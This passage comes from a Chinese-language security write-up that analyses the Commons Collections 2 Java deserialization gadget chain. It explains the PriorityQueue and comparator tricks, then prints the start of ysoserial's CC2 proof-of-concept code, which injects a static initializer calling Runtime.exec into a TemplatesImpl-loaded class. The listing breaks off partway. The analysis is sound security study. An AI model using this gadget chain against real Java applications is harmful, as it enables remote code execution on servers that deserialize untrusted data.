 - 为什么要add两个值？

![image-20220331205941347](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220331205941347.png)

这里往queue中add两个值，是为了让其size>1，只有size>1才能使的i>0，才能进入siftDown这个方法中，完成后面的链。

- 为什么要在add之后才通过反射修改comparator的值?

![image-20220331210139074](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220331210139074.png)

add调用了offer方法，offer方法调用了siftUp方法：

![image-20220331210233359](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220331210233359.png)

这里需要保证comparator的值为null，才能够正常的添加元素进queue

ysoserial 的 CC2 没有使用 ChainedTransformer，而直接使用了 InvokerTransformer 配合 TemplatesImpl 直接加载恶意类的 bytecode。由于上面的poc只能执行命令，但yso的cc2能够执行代码，危害更大，我们来分析一下它的POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class CommonCollections2_yso {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
```